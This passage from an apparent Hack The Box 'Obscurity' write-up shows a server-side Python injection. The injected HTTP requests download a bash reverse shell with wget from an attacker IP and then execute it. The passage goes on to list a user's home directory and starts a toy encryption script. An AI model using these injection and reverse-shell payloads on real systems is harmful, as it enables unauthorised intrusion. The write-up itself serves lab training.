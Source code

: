 With this, I created a simple bash reverse shell script and used wget to upload it to /tmp on the machine. Then I used the vulnerable function once again to execute the script. This returned a shell as `www-data`. There is probably a more elegant way, but I didn't want to overcomplicate it.

`GET /'+%2b+subprocess.call(['wget','10.10.14.34/rev.sh','-O','tmp/rev.sh'])+%2b+' HTTP/1.1`  
`GET /'+%2b+subprocess.call(['bash','tmp/rev.sh'])+%2b+' HTTP/1.1`

One of the first things I noticed is that we can read Robert's home directory as `www-data` and he has quite a few interesting files.

```bash
ls -la /home/robert
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24  2019 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3  2019 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3  2019 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3  2019 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
```
What I found is that there is a script called `SuperSecureCrypt.py` that is used to "encrypt" a file with a "key". Robert left has a `passwordreminder.txt` file, and conveniently, a `check.out` and `out.txt` file. `out.txt` contains the encrypted output of `check.txt`. This will allow us to potentially reverse the encryption and get his key, which we can use to decrypt his password reminder file.

![](\assets\images\htb\obscurity\robert-files.png)

SuperSecureCrypt.py
```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
```